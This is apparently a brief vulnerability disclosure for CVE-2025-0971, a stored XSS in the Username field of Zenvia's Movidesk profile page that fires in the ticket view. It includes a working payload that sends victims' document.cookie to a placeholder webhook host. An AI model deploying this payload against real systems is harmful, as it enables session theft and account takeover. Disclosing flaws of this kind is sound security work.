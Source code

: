 # CVE-2025-0971
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

**Affected Version: < 25.01.22**

**OBS: For this exploit, you must be authenticated!**


## POC

This vulnerability resides in the /Account/EditProfile page in Username parameter,

Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`.

Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`.


## Full url
https://IP/Account/EditProfile

---

## Reference

https://www.movidesk.com/
